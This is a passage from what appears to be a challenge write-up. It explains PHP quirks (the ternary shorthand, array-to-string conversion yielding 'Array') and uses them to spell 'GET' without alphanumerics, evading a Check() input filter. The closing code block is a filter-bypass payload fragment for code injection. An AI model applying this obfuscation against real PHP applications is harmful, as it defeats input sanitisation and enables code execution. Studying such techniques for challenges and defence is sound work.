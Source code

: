 Another thing PHP has that we can utilize here is shorthand statements. Plenty of other languages have this feature as well in some way or another. For example, the ternary operator ``?``: 

```php
$result = $condition ? 'Jam' : 'Vie';
```
is shorthand for

```php
if ($condition){
    $result = 'Jam';
}else{
    $result = 'Vie';
}
```


And finally, the last quirk about php: arrays and strings. 

In other languages, arrays and strings are treated as distinct, two different data types. Some languages may treat strings as an array of chars, but by convention, just any random and arbitrary array can't and shouldn't be joined with a string without proper typesetting and checking. Okay, sounds fair and good and all. But what does php do instead? 

In php, you can join arrays and strings together. The array will be converted to the string: ``'Array'``.

```
php > echo ''.[];
PHP Notice: Array to string conversion on line 1
Array               <------The string, 'Array'


php > $var = ''.[];
php > echo $var['!'=='@'];   <------Should give us the first leter in 'Array'
A
```

What does this mean for us?

Because of the ``Check()`` function, we can't use alphanumerics or certain special characters. But for the list of valid special characters, ``[]`` square brackets are allowed, so we can declare arrays as normal. And we can still declare variables as usual, and the `` + `` operators are still valid so we can utilize string arithmetic. 

So, all in all, if we wanted to spell the word ``GET`` with all the restrictions above, it would look like

```php
<?= $_=[] ?>            //Declare array
<?= $_=@"$_" ?>         //array is converted to a string, "Array"
<?= $_=$_['!'=='@'] ?>  //Access first element in array. The '!'=='@' check returns 0
<?= $___=$_ ?>          //'A'

<?= $__ = $_ ?>
<?= @$____ = $__++ + $__++ + $__++ + $__++ + $__++ + $__++ ?>   
<?= $_______ = $__ ?>   //'G'     

<?= $__ = $_ ?>
<?= @$____ = $__++ + $__++ + $__++ + $__++ ?>    //'E'
<?= $_______ .= $__ ?>                           //'GE'

<?= $__ = $_ ?>
<?= @$____ = $__++ + $__++ + $__++ + $__++ + $__++ + $__++ + $__++ + $__++ + $__++ + $__++ + $__++ + $__++ + $__++ + $__++ + $__++ + $__++ + $__++ + $__++ + $__++ ?>   //'T'
<?= $_______ .= $__  ?> //'GET'
```
